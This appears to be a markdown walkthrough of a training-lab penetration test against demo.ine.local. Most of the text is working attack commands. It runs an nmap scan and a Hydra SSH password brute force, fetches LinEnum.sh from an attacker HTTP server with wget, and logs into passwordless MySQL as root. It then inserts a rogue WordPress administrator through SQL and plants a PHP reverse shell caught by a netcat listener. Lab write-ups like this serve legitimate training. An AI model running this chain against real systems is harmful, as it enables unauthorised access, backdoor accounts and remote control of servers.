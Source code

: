## Use nmap to scan the target

    nmap -sS -sV demo.ine.local

read the open ports and we have ssh,telnet and apache.

## Use Hydra for ssh

    hydra -L users.txt -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh

### Found the credentials

    webadmin | denise

### Login via ssh

    ssh webadmin@demo.ine.local

### Let's check the list of processes:

    ps aux


Manual recon can be a bit tedious and time-consuming process. Instead, we can use handy scripts like LinEnum.sh

    https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

 run a python-based HTTP server in the folder where this file is located:

    python3 -m http.server 80

Now head over to the terminal with the SSH session and check the IP address of the target web server:

    ip addr

The IP address of the target web server is

    192.8.52.3

This means that the attacker machine is at IP

    192.8.52.2


### Download LinEnum.sh from attacker's machine to target's machine

check for curl or wget if available on the target's machine

    curl
    wget

Download using wget

    wget http://192.8.52.2/LinEnum.sh


Now also have to make the script executable:

    chmod +x LinEnum.sh


As the script reports its findings, you would notice something interesting:

    [+] We can connect to the mysql service as 'root' without a password


Connect to the MySQL service as the root user.

    mysql -u root 

Checking the list of available databases:


    show databases;

Let's switch to the

    app

database and check the list of tables in it:

    use app;
    show tables;

### Add a new user

    INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_nicename`, `user_email`, `user_status`) VALUES ('appuser', MD5('appuser_passwd'), 'appuser', 'appuser@ine.local', '0');


<br/>

    INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, (Select max(id) FROM wp_users), 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');

<br/>

    INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, (Select max(id) FROM wp_users), 'wp_user_level', '10');


### Check the new user

    SELECT * from wp_users;

### Login in with the new user

<br/>

username: appuser

password: appuser_passwd

<br/>

## Edit the 404 page template to gain a reverse shell

<br/>

For that, click on Appearance -> Editor then click 404.php

<br/>

### Replace the code with a reverse shell code from pentest monkey

    cat /usr/share/webshells/php/php-reverse-shell.php

Change the ip to the address of your machine

Start a Netcat listener of the port specified in the code

    nc -nvlp 1234

Now visit the 404 page again and you should see the reverse shell in the command line.